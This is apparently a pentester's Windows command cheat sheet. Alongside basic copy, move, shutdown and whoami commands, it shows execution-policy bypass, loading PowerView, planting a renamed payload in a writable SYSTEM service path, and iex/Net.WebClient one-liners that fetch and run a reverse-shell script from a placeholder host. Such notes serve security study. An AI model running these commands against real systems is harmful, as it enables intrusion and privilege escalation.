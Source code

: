```yaml
---
description: The basic of Command Prompt and PowerShell
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Basic PowerShell

Enter powershell with Execution Policy Bypass

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
```
{% endcode %}

Or, if you already inside powershell session, you can set Execution Policy with this command:

{% code overflow="wrap" %}
```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser
```
{% endcode %}

Load powershell script function into memory with dot sourcing:

```powershell
. .\PowerView.ps1
```

Import module to powershell:

{% code overflow="wrap" %}
```powershell
import-module .\Powerspolit.psd1
```
{% endcode %}

### Check All Available Powershell Command

```powershell
Get-Command -Name "*Invoke*"
Get-Command
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi61t18ptuUTq7RFezUuspvOLZt26gJsqhnA38XRxnwdt02TaEFATWJ6ync6A5wFyxIFcxGmO398G_e8-34zU4uxRBoMAfTCI4BYs8jGqu8EuJ5kf46MBJodCkK2jhkppnjSTRg3_a-bkKCAOsgiMfnA60mltPRIPan1H30PrwhKRNCDLOhFSW0Ax-3M14/s1010/get%20all%20available%20command.png" alt=""><figcaption><p>Get-Command</p></figcaption></figure>

### Copy  & Move

How to copy file:

{% code overflow="wrap" %}
```powershell
copy source.exe destination.exe
```
{% endcode %}

How to copy directory:

```powershell
xcopy C:\source_dir D:\dest_dir /E /I /Y
```

Explanation:

* `/E` – Copies all subdirectories, including empty ones.
* `/I` – If the destination does not exist and copying more than one file, this option assumes that the destination must be a directory.
* `/Y` – Suppresses prompting to confirm you want to overwrite an existing destination file.

How to Move File or Directory

{% code overflow="wrap" %}
```powershell
move payload.exe C:\temp\service.exe
```
{% endcode %}

### Rename&#x20;

Sometimes, after found service run as SYSTEM user and writable by low user, you can drop payload to the directory and rename the payload to match the service name.

```powershell
ren Payload.exe Service.exe
```

### Download

certutil.exe

{% code overflow="wrap" %}
```powershell
certutil -urlcache -split -f https://example.com/example.txt example.txt
```
{% endcode %}

powershell.exe: Invoke-WebRequest

{% code overflow="wrap" %}
```powershell
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -OutFile "PowerView.ps1"
```
{% endcode %}

### Download and Execute

powershell.exe: Invoke-Expression

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))
```
{% endcode %}

Or, from cmd.exe to powershell.exe

{% code overflow="wrap" %}
```powershell
powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))"
```
{% endcode %}

Or, use start /B to run the command in background.

{% code overflow="wrap" %}
```powershell
start /B powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))"
```
{% endcode %}

### Restart and Shutdown

Shutdown now:

```powershell
shutdown /s /t 0 /f
```

Restart now:

{% code overflow="wrap" %}
```powershell
shutdown /r /t 0 /f
```
{% endcode %}

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Privileges, User, and Groups

User stuff:

```
whoami /all
whoami /priv
whoami /group
net user
net user asuka
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjyAVj1INMgIeK5kh7G_9aPZ8U60HuQWWzeXPLIAI75N0amaCt9yVQGeLxkGMaiZ6xqL7eSy1g5ctN9w-Uk-oZqg65VCrqaK5NnEFbbNdlq-y880XX5zP4Vik8P8YxsI7Lx3vVgRe4skx0wZhr9_z8HSFa0ES55QW7-kxsvPdO23Vjw5NaLRm-KGSVzUXE/s1021/whoami%20all.png" alt=""><figcaption><p>whoami /all</p></figcaption></figure>

Check Local Group using Command Prompt:

```
net localgroup
net localgroup Administrators
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-LocalGroupMember -Group "Administrators" |  Select-Object *
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSwKtfQSeG7PGNF6Oz3A6iAK9G1lYqf6INpoLtXifRQHdHqNbR6yN3WfZMGEpZOU1wLxVpkZUB7iPEHLyHN0jENDO_QZIx-yO4tne-Buag5dDr8vINN3oxc3rlNM4xXznS5zNAushx6aqkR6Kd-F1La5jsSL0u7ClbtOsz2TcrczzRK91x_vLjZqKL4s4/s1050/powershell%20command.png" alt=""><figcaption><p>Get-LocalGroupMember</p></figcaption></figure>
